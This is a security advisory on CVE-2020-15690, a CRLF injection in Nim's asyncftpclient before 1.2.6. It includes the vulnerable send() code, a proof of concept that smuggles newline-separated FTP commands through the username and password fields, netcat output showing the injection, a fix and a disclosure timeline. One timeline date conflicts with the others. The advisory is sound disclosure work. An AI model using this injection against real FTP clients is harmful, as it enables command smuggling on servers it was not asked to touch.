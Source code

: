 ```yaml
---
title: "Nim - stdlib asyncftpd - Crlf Injection"
date: 2021-02-04T15:25:49+01:00

cve: ["CVE-2020-15690"]
vendor: nim-lang
vendorUrl: https://nim-lang.org/
authors: tintinweb
affectedVersions: [ "< 1.2.6" ]
vulnClass: CWE-93
---
```



# Vulnerability Note

## Summary 

In Nim before 1.2.6, the standard library asyncftpclient lacks a check for whether a message contains a newline character.

## Details

### Description

The nim standard library `asyncftpclient` is vulnerable to multiple `CR-LF` injections. An injection is possible if the attacker controls any argument that is passed to the remote server such as the `username` and `password` to `newAsyncFtpClient`. 


The root cause of this issue is that the `send(ftp, msg)` allows `msg` to contain `CR-LF` control characters. An attacker that controls any unchecked input to `send()` can therefore inject arbitrary FTP commands. 

```nim
proc send*(ftp: AsyncFtpClient, m: string): Future[TaintedString] {.async.} =
  ## Send a message to the server, and wait for a primary reply.
  ## ``\c\L`` is added for you.
  ##
  ## **Note:** The server may return multiple lines of coded replies.
  await ftp.csock.send(m & "\c\L")
  return await ftp.expectReply()
```


### Proof of Concept

Note: `nim c -r -d:ssl  crlf_inject.nim`

* Injecting FTP commands via `user` and `pass`

```nim
import asyncdispatch, asyncftpclient
proc main() {.async.} =
  var ftp = newAsyncFtpClient("localhost", user = "test\nINJECTED_LINE test test", pass = "test\nINJECTED_LINE test test 2")
  await ftp.connect()
  echo("Connected")
waitFor(main())
```

Output:

```
⇒ nim c -r -d:ssl  crlf_inject.nim
...
Hint: 104717 LOC; 1.030 sec; 113.309MiB peakmem; Debug build; proj: /Users/tintin/workspace/nim/test/issues/asyncftpclient/crlf_inject.nim; out: /Users/tintin/workspace/nim/test/issues/asyncftpclient/crlf_inject [SuccessX]
Hint: /Users/tintin/workspace/nim/test/issues/asyncftpclient/crlf_inject  [Exec]
Connected
```


```
⇒  nc -l 21
220 fake ftp
USER test
INJECTED_LINE test test
230 Hi test, thanks for injecting a line...
PASS test
INJECTED_LINE test test 2
230 thx for injecting another line...
```

### Proposed Fix

- properly validate user input
- raise an exception if `CR` or `LF` if found in the `msg` passed to `send()` 

## Vendor Response

Vendor response: fixed in 1.2.6

### Timeline

```
JUL/13/2020 - contact dom96@telegram; provided details, PoC
FEB/04/2020 - public disclosure
```

## References

* [1] https://nim-lang.org/
* [2] https://nim-lang.org/install.html
* [3] https://en.wikipedia.org/wiki/Nim_(programming_language)
